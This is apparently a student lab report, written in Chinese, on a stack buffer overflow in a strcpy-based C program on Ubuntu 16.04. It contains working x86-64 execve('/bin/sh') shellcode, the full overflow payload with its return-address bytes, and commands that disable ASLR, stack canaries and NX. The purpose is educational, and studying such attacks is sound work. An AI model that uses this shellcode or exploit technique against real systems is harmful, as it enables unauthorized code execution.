








# stack overflow

## 实验目的

* 理解掌握`C` 栈帧结构
* `Shellcode` 构造
* 加深理解栈溢出攻击原理及防护措施

## 实验要求

* 在关闭安全机制下,在Linux系统平台上实现缓冲区溢出攻击
* 开启安全保护机制,运行一样的溢出攻击代码,比较实现现象

## 实验展示

1. 实验原理

​ `C` 栈帧结构如下：



​ 因此当当前帧的局部变量和临时变量超出区域，覆盖了`ebp` 和返回地址时，就实现了栈溢出攻击。再通过精心设计返回地址，使其为`Shellcode` 的起始地址，就完成了运行流的劫持。

1. 实验平台

​ 实验基于 64位 `Ubuntu \ 16.04` 操作系统版本以及 `gcc,gdb` 版本信息如下：

```text
Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

gcc (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
```

1. `Shellcode`  代码

​ `Shellcode` 是一段攻击者精心设计的恶意代码，通常要求与位置无关，且本实验中利用 `strcpy()` 函数，因此`Shellcode` 代码中不能出现 `\x00` ，会被当作`\0`从而结束拷贝。

​ 编写`Shellcode` ，该`shellcode` 调用`execve("/bin/sh",NULL)` ，启动一个新的`shell`，验证其功能，参考: [https://www.exploit-db.com/exploits/36858/](https://www.exploit-db.com/exploits/36858/) ，编写汇编文件如下：

```text
.global _start
_start:
    # char *const argv[]
    xorl %esi, %esi

    # 'h' 's' '/' '/' 'n' 'i' 'b' '/'
    movq `0x68732f2f6e69622f, %rbx

    # for '\x00'
    pushq %rsi
    pushq %rbx
    pushq %rsp

    # const char *filename
    popq %rdi

    # __NR_execve 59
    pushq `59
    popq %rax

    # char *const envp[]
    xorl %edx, %edx
    syscall
```



提取机器码：



1. 漏洞代码

```c
#include <stdio.h>
#include <string.h>
void overflow(char* str){
    char buf[30];
    strcpy(buf, str);
}
int main(){
    char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
                  "\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
    overflow(str);
    return 0;
}
```

​ 上面这段程序栈溢出漏洞触发点在`strcpy`函数, 函数没有做边界检查，可导致栈溢出覆盖返回地址。成功利用栈溢出需要确定覆盖多少个字节可以覆盖到返回地址。因此在`gdb`调试时确定`shellcode`的地址即`str`复制后`buf`的首地址，让返回地址指向该地址。

1. 实验结果

​ 实验前为了更简单的方式实现栈溢出，需要关闭一些保护措施。

* `ASLR` \(地址空间布局随机化\)

  关闭`ASLR`：`echo 0 |sudo tee /proc/sys/kernel/randomize_va_space`

* `Cannary`

  开启`Canary`之后，函数开始时在ebp和临时变量之间插入一个随机值，函数结束时验证这个值。如果不相等（也就是这个值被其他值覆盖了），就会调用 `_stackchk_fail`函数，终止进程。对应GCC编译选项`-fno-stack-protector`解除该保护。

* `NX` 开启`NX`保护之后，程序的堆栈将会不可执行。对应GCC编译选项`-z execstack`解除该保护。

编译调试：



​ 从调试结果可知，`buf` 的首地址为 `0x7fffffffdaa0` ，且查看内存该地址处确实为 `Shellcode` 起始代码。为了覆盖到返回地址，即填充字节至且包括8字节`rbp` \(`0x7fffffffdac0`\) ，则除了`shellcode`外还需要填充17字节。另外返回地址为`0x7fffffffdaa0`,改为小端模式`\xa0\xda\xff\xff\xff\x7f`。因此：

```c
char str[60]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
              "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
              "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61"
              "\xa0\xda\xff\xff\xff\x7f\x00\x00";
```

​ 重新编译，gdb调试运行：



成功运行。然而实际运行却是段错误，原因是gdb有自己的变量环境，变量的存放地址和程序实际运行会不一致，因此只需要把返回地址改为shellcode实际存放的地址即可，填充长度无须改变，因为相对偏移不变。

获取`shellcode` 实际地址，可以打印出`buf` 地址，也可以利用内核转储获取真实地址。首先启用内核转储 `ulimit -c unlimited` ，缺省情况下，内核在coredump时所产生的core文件放在与该程序相同的目录中，并且文件名固定为core。



因此修改`str` 尾部为`\x10\xdb\xff\xff\xff\x7f\x00\x00`。重新编译运行：



若启用保护措施，正常编译：



